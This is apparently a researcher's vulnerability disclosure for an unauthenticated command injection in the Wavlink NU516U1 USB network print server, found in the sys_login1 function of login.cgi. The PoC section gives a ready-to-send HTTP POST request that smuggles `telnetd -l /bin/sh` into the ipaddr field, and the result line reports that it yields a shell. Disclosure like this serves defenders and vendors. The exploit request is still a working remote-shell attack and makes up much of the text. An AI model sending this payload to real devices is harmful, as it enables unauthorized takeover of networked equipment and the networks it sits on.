


# Wavlink Vulnerability

Vendor:Wavlink

Product:NU516U1

Version:M16U1_V240425

Type:Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found a command injection vulnerability in a Wavlink USB Network Printer Server with recently released firmware, which allows remote attackers to execute arbitrary OS commands via a crafted request. **Exploiting this vulnerability does not require authentication.**

**Remote Command Execution**

In `sys_login1` function, `ipaddr` is directly passed by the attacker, so we can control the `ipaddr` to attack the OS.

<div  align="center"></div>


## PoC

We set `ipaddr` as **`telnetd -l /bin/sh`** , and the device will excute it,such as:

```http
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://192.168.10.1
Connection: keep-alive
Referer: http://192.168.10.1/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

page=sys_login1&ipaddr=`telnetd -l /bin/sh`&password=e99a18c428cb38d5f260853678922e03
```


## Result

Get a shell!

<div  align="center"></div>
